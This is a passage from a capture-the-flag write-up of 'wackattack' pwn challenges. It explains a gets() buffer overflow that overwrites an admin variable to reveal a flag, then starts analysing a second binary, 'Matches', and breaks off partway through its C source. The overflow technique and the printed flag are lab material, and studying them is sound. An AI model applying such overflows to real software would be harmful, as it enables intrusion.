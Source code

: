 {: file="welcome.c"}

There is no canary in the binary, and we can from the source code see that `gets` is called, which calls for a buffer overflow. We also see that `admin=0`, but it has to be not 0 to let us get the flag.

The buffer is only 28-bytes in size, so if we send 29 bytes we start overwriting the `admin` variable.

Sending 29 characters gives us the flag
```console
Welcome to pwn!!!!
What would you like to say? (no more than 28 characters please)
aaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Oh you are a ctf admin? Here you go:
wack{h4v3_fun_4nd_br34k_stuff}
```


## Matches
![Challenge](matches_chall.png)

```console
loevland@hp-envy:~/ctf/wackattack/pwn/matches$ ./matches
Welcome, please set some variables.
first number:
1
another number:
2
and then a string:
abc
num1: 1, num2: 2, string: abc
Thank you for your service
```

The program asks for two numbers, and a string.

The protections on the binary are
```console
loevland@hp-envy:~/ctf/wackattack/pwn/matches$ pwn checksec matches
[*] '/home/loevland/ctf/wackattack/pwn/matches/matches'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We are also given the source code for the binary
```c
#include <stdlib.h>
#include <stdio.h>

void main() {
    setbuf(stdout, NULL);
    unsigned int num1;
    unsigned int num2;
    char str3[64];

    puts("Welcome, please set some variables.");
    puts("first number: ");
    scanf("%d", &num1);
    puts("another number: ");
    scanf("%d", &num2);

    if (num1 > 1000 || num2 > 1000) {
        puts("I can't handle numbers larger than 1000!");
```